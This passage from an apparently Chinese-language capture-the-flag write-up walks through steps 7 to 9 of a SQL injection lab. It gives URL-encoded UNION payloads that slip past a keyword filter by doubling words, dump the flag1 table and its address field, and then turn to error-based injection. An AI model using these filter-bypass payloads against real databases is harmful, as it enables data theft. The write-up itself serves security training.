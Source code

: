 ```
?id=1%27%20ununionion%20seselectlect%201,%20group_concat(column_name)%20from%20infoorrmation_schema.columns%20where%20table_name=%27flag1%27--+ 
```

![在这里插入图片描述](img/78f7788a8ccc84f2498c040b9f26e533.png)
7、爆数据：

```
?id=1%27%20ununionion%20seselectlect%201,%20group_concat(flag1)%20from%20flag1--+ 
```

![在这里插入图片描述](img/9462d86755d8087d95395384b81d6a75.png)
8、提交flag显示错误，换个字段。爆address，得出下一关地址：

```
?id=1%27%20ununionion%20seselectlect%201,%20group_concat(address)%20from%20flag1--+ 
```

![在这里插入图片描述](img/f6f2fc26995a38784953d62e4c9467c2.png)
9、打开之后，当双写绕过和大小写绕过都没用时，这时我们需要用到报错注入，爆字段数：
